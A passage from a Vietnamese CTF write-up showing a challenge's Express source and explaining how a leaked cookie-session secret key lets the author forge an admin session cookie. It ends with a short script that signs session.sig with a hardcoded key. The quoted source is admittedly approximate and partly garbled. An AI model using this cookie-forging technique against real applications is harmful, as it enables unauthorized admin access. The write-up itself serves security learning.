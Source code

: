 ```js
			})
			.catch((e) => {
				console.log(e);
				res.status(403).send(response('Invalid UUID or password!'));
			});
	}
	return res.status(500).send(response('Missing parameters!'));
});

router.get('/dashboard', AuthMiddleware, async (req, res, next) => {
	if (req.session.username === 'admin') {
		let flag = execSync('../readflag').toString();
		return res.render('admin.html', { flag });
	}
	return res.render('dashboard.html');
});

router.post('/api/export', async (req, res, next) => {
	const { svg } = req.body;

	try {
		const png = await convert{
			svg,
			{
				...
			}
		}
	}
})
```
_Note: source có thể không giống 100% tại mình copy bằng blackbox nên sợ không đúng, mong các bạn thông cảm_

Lần đầu tiên trong bài, ta thấy sự hiện diện của `flag`, vậy với `username` là `admin` thì web sẽ render flag ra cho ta (nghe ez vãi). But wait, username thì ta biết có thể tùy chỉnh từ cookie `session`, vậy còn `session.sig` ???  Như đã nói ở trên, vì chúng ta đã tìm được SESSION_SECRET_KEY, với SECRET KEY đó ta có thể sign ra bất cứ session cookie nào ta mong muốn. Vậy thì mục tiêu cuối cùng của bài sẽ là generate ra `session.sig` với username là `admin`.

Tận dụng code có sẵn của bài, ta sẽ tự generate cookie session.sig ở local rồi sử dụng nó lên web chính thì sẽ lấy được flag. Script generate:

`script app.js`

```js
const express = require('express');
const session = require('cookie-session');
const app = express();
const cookieParser = require('cookie-parser');

app.use(cookieParser()); 
app.use(session({
	name: 'session',
	keys: ['fc8c7ef845baff7935591112465173e7']
}))

app.get('/', (req, res) => {
	req.session.username = 'admin'
	res.status(200).send(('done'));
});

app.listen(6969);
```
